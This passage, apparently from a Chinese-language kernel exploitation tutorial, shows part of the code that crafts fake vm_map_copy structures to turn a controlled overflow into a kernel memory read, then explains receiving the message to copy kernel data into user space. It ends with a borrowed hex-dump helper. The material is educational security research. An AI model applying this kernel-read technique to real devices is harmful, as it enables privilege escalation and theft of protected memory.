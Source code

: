             if (idx == 0) {
                vm_copy_struct_ptr->type = 0x3;
                vm_copy_struct_ptr->size = size;
                vm_copy_struct_ptr->kdata = address;
                vm_copy_struct_ptr->kalloc_size = 0x100;
            }
            else {
                vm_copy_struct_ptr->type = 0x3;
                vm_copy_struct_ptr->size = 0xA8; // 0xA8 = 256 - 0x58 = 168 = ool memory size
                vm_copy_struct_ptr->kdata = kobject_address;
                vm_copy_struct_ptr->kalloc_size = 0x100;
            }
    
            vm_copy_struct_ptr = (mach_vm_address_t)vm_copy_struct_ptr + 0x100;
        }
    }
    
    ```
    
    表23：控制溢出
    
8.  直接接收消息，内核数据就被读到了用户空间。
    

下面这个代码片段（来源于网络）可以打印读到的内容，方便调试内核读：

```
void HexDump(char *description, void *addr, int len)
{
    int idx;
    unsigned char buff[17];
    unsigned char *pc = (unsigned char *)addr;

    // Output description if given.
    if (description != NULL)
        printf ("%s:\n", description);

    // Process every byte in the data.
    for (idx = 0; idx < len; idx++) {
        // Multiple of 16 means new line (with line offset).

        if ((idx % 16) == 0) {
            // Just don't print ASCII for the zeroth line.
            if (idx != 0)
                printf (" | %s\n", buff);

            // Output the offset.
            printf ("  %04X:", idx);
        }

        // Now the hex code for the specific character.
        printf (" %02X", pc[idx]);

        // And store a printable ASCII character for later.
        if ((pc[idx] < 0x20) || (pc[idx] > 0x7e))
            buff[idx % 16] = '.';
        else
            buff[idx % 16] = pc[idx];
        buff[(idx % 16) + 1] = '\0';
    }

    // Pad out last line if not exactly 16 characters.
    while ((idx % 16) != 0) {
        printf ("   ");
        idx++;
    }

```